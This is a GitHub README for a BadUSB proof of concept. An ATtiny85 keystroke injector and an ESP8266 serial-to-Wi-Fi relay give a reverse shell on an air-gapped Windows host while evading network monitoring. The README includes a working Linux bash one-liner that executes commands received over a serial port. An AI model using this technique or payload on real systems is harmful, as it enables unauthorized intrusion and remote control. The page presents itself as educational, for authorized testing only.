


# revshellAirgap (PoC)

revshellAirgap is a proof of concept showing a lab technique to enstablish an interactive Reverse Shell on a network-isolated Windows host with no Internet access. This is for educational, authorized testing only. Do not use on systems you do not own or have explicit permission to test.

## Demo

Click below to see the video:

[](https://www.youtube.com/watch?v=v9nBg7IyuJw)

## Overview

This PoC uses three small components to relay an interactive session from an air-gapped Windows host:

- ATtiny85 (USB HID): types a short PowerShell bootstrap on the target
- ESP8266 (USB COM device): exposes a virtual COM port and forwards data between COM and a Wi-Fi connection
- Android phone: provides the Wi-Fi Rogue access point used by the ESP8266 to reach the Internet

The target does not use its own network adapters for this traffic. Data path:

PowerShell Reverse Shell -> COM port -> ESP8266 -> Wi-Fi Rogue access point -> Internet -> Command and Control


## Architecture



## Components

### ATtiny85


### ESP8266 Wi-Fi


## Setup

**Warning: The "Setup" section has been intentionally made vague to avoid promoting the misuse of this code. Any requests for assistance regarding the use or setup of this POC will be ignored. Supported hardware is limited to the models tested. Adaptation guidance for other devices will not be provided.**

1. Indexes used in Arduino IDE:
   * ATtiny Core for ATtiny85: `http://drazzy.com/package_drazzy.com_index.json`
   * Arduino Core for ESP8266: `https://arduino.esp8266.com/stable/package_esp8266com_index.json`
2. Board Manager setup in Arduino IDE


3. DigiKeyboard library from `https://github.com/LucaReggiannini/digikeyboard-library` was used
4. UDEV Rules used for ATtiny85 (from `https://github.com/micronucleus/micronucleus/blob/master/commandline/49-micronucleus.rules`). `/etc/udev/rules.d/49-micronucleus.rules`:
```bash
SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"
KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"
```
5. Right permissions for the `/dev/ttyUSBX` file for ESP8266 (reboot is required):
```bash
me@macbook:~$ ls -l /dev/ttyUSB0
crw-rw---- 1 root uucp 188, 0 Dec 20 05:16 /dev/ttyUSB0
me@macbook:~$ sudo usermod -aG uucp $USER
```

## Final notes

* This approach works even if the target is network-isolated (by firewall rules, security policies and similar): the reverse shell is carried over the rogue Wi-Fi Access Point and the target’s network interfaces are never used. No traffic will be generated or monitored (Technical note: while the target host generates no network traffic, the upstream connection, from ESP8266/AP to the Command and Control server, is intentionally left unencrypted and may be monitored or logged by networks/providers along the path)
* Physical access is needed to plug in the BadUSB devices. Every time an interaction with the shell is needed, the USB module must stay within Wi-Fi range of the Access Point
* With only ~512 bytes of memory on the ATtiny85, the bootstrap must remain minimal. However, it still includes enough logic to keep enumerating serial ports even if the USB module is unplugged/plugged back in, forward data to/from the virtual COM port, and automatically re-establish the session after link drops. Because of these memory limitations, the POC is volatile: it lasts only until reboot or user logoff; persistence and any other advanced feature are intentionally out of scope and will not be implemented in the POC 
```
* An bootstrap payload for Linux system can be based on the following code. It will not be implemented in the POC:
```bash
sudo fuser -k /dev/ttyUSB0; DEV=/dev/ttyUSB0; stty -F "$DEV" 115200 raw -echo -ixon -ixoff -crtscts icrnl; exec 3<>"$DEV"; while IFS= read -r -u 3 cmd; do bash -lc "$cmd" >&3 2>&1; printf '\n' >&3; done; 
```
